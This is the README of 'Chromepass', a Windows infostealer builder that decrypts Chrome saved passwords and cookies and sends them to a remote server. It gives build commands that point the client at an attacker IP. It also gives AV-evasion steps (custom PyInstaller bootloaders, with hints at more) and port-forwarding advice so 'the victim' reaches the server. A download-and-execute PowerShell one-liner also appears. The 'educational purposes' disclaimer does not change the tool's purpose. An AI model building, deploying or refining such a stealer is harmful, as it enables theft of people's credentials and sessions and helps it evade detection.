 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://i.imgur.com/WtaFA6c.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Chrome saved paswords
  - Send a file with the login/password combinations and cookies remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message

---

### AV Detection!
This can be undetected with a very easy step detailed below. The reason why it's detected is because many AVs get tripped by the popular signatures of pyinstaller. To mitigate this, you can build the bootloaders manually. You can do this on a clean VM if you wish:
 - Go through the [Installation](#installation) first
 - Open an administrator powershell
 - Run the following code and wait for it to finish, it might take a while: 
```powershell
Set-ExecutionPolicy remotesigned -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1')); choco install -y python vcbuildtools git
```
 - Close the powershell window and open a new one (doesn't require administrator)
 - Go into the chromepass directory, if you're not in it already.
 - Run the following code: 
  ```powershell
     git clone https://github.com/pyinstaller/pyinstaller.git
     pip uninstall pyinstaller -y
     cd pyinstaller/bootloader
     python waf all
     cd ..
     pip install .
  ```
 - Now you can follow the [Usage](#usage) normally and your executable is no longer detected by most AVs. There are some additional things you can do to make it completely undetectable. I'll leave you to discover what some of those things are.  
 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.6+

### Installation

Chromepass requires Windows to run! Support for linux and MacOS may be added soon

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

```powershell
cd chromepass
pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+
If the errors persist, try:
```powershell
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```  

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
> python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message "An Error has happened"
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saves in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.

If you'd like additional notes on evading AV, refer to [AV Detection](#av-detection)  

### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80), so that when the victim runs the client it is able to connect to the server on port 80.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.python.org/downloads/>
